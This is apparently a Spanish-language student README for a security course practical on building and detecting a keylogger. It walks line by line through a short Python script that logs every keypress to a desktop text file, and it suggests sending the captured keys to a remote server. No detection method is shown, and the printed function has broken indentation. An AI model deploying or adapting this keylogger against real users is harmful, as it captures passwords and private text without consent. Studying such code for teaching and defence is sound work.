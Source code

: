 # Práctica 1: Creación y Detección de un Keylogger en Python, Explicación AEH
En este documento explicaré como he realizado la práctica aquí explicada: https://github.com/creyaro/SI_T5_P1

## ¿Cómo funciona el keylogger?
Explicaré mi keylogger por líneas:
  1. Importar la librería que vamos a utilizar.
     
     ```python
     import keyboard
     
     ```
  2. Haremos una función que escriba la tecla que ha pulsado el usuario rodeada por espacios para una mejor interpretación del output.
     
     ```python
     def on_key_event(event):
     f = open('C:\\Users\\PC03\\Desktop\\keylog.txt', 'a')
     if event.name == 'space':
         f.write(' ')
     f.write(str(event.name))
     if event.name == 'space':
         f.write(' ')
     
     ```
  3. Utilizar la función "on_press", para registrar la tecla que pulse el usuario.
     
     ```python
     keyboard.on_press(on_key_event)

     ```
  4. Utilizamos la función "wait" para esperar a que se pulse una tecla para finalizar el script en este caso la tecla "esc".
     
     ```python
     print("Presiona cualquier tecla. Pulsa 'Esc' para salir.")
     keyboard.wait('esc')

     ```

## Áreas de mejora del keylogger
  ### Mejoras de lectura
  Esta mejora consiste en hacer que el texto que recogemos en el archivo de texto sea más legible, ya están implementadas algunas mejoras de legibilidad, pero igualmente se podría hacer que el texto fuese más legible y no escribiera comandos todos juntos como por ejemplo los "space" o "esc".
  
  ### Mejoras de envío de información
  La información podría ser enviada a algún equipo remotamente o a algún servidor mediante un archivo JSON.
  ### Mejoras de funcionalidad
  Podría tener más funciones como por ejemplo, hacer que registre el tiempo de pulsación de las teclas, darle un nombre concreto al evento o darle un ID.
  
## ¿Cómo usar el keylogger?
  El keylogger funciona de una forma muy simple, ejecutas el archivo .py y el script ya estará funcionando, este registrara todos los eventos que realicemos por teclado y los guardará en un archivo llamado keylog.txt ubicado en el escritorio.
